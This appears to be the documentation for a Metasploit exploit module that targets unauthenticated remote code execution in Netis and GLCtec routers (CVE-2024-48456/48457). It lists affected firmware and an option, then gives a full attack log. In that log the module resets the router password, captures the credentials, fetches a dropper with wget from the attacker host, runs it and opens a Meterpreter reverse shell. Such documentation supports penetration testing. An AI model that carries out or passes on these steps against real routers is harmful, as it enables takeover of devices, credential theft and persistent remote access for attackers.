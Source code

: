 ```msf
  * netis_app_BeeWiFi_NC63_v4_Bangladesh-V3.0.0.3503.bin
  * netis_NC65_V3.0.0.3749.bin
  * Netis_NC65_Bangladesh-V3.0.0.3508.bin (https://www.netis-systems.com/support/downinfo.html?id=34)
  * Netis_NC65v2-V3.0.0.3800.bin (https://www.netisru.com/support/downinfo.html?id=34)
  * netis_NX10_V2.0.1.3582_fw.bin
  * netis_NX10_V2.0.1.3643.bin
  * Netis_NX10_v1_Bangladesh-V3.0.0.4142.bin (https://www.netis-systems.com/support/downinfo.html?id=33)
  * netis_NX10-V3.0.1.4205.bin (https://www.netisru.com/support/downinfo.html?id=33)
  * netis_app_BeeWiFi_NC21_v4_Bangladesh-V3.0.0.3329.bin
  * netis_app_BeeWiFi_NC21_v4_Bangladesh-V3.0.0.3500.bin
  * Netis_NC21_v2_Bangladesh-V3.0.0.3854.bin (https://www.netis-systems.com/support/downinfo.html?id=40)
  * GLC_ALPHA_AC3-V3.0.2.115.bin (https://drive.google.com/drive/folders/1P69yUfzeZeR6oABmIdcJ6fG57-Xjrzx6)
  * potentially others...

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-48455
  https://nvd.nist.gov/vuln/detail/CVE-2024-48456
  https://nvd.nist.gov/vuln/detail/CVE-2024-48457
  https://github.com/users/h00die-gr3y/projects/1

View the full module info with the info -d command.
```
## Options
### CMD_DELAY
Chained command lines using `;` do not work, so each command need to be executed in a separate request
with delay of 30 seconds of more to avoid session locking using the `CMD_DELAY` option.

## Scenarios
### GLCtec ALPHA-AC3 Router Emulation Linux Dropper -  linux/mipsle/meterpreter_reverse_tcp
```msf
msf exploit(linux/http/netis_unauth_rce_cve_2024_48456_and_48457) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.1.253:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.254:80 can be exploited.
[+] The target appears to be vulnerable. GLC(ALPHA-AC3)-V3.0.2.115
[*] Resetting router password for authentication.
[*] Logging in with the new router password 4vNcez42D to get the password cookie.
[*] Saving router credentials (root) at the msf database.
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.1.253:1981/ZhIplAe6jD9O7J
[*] Executing wget -qO /tmp/hMvelDeE http://192.168.1.253:1981/ZhIplAe6jD9O7J
[*] Client 192.168.1.254 (Wget) requested /ZhIplAe6jD9O7J
[*] Sending payload to 192.168.1.254 (Wget)
[*] Command Stager progress -  53.85% done (63/117 bytes)
[*] Executing chmod +x /tmp/hMvelDeE
[*] Command Stager progress -  72.65% done (85/117 bytes)
[*] Executing /tmp/hMvelDeE
[+] Deleted /tmp/hMvelDeE
[*] Meterpreter session 7 opened (192.168.1.253:4444 -> 192.168.1.254:54551) at 2024-12-29 11:28:49 +0000
[*] Command Stager progress -  83.76% done (98/117 bytes)
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.
```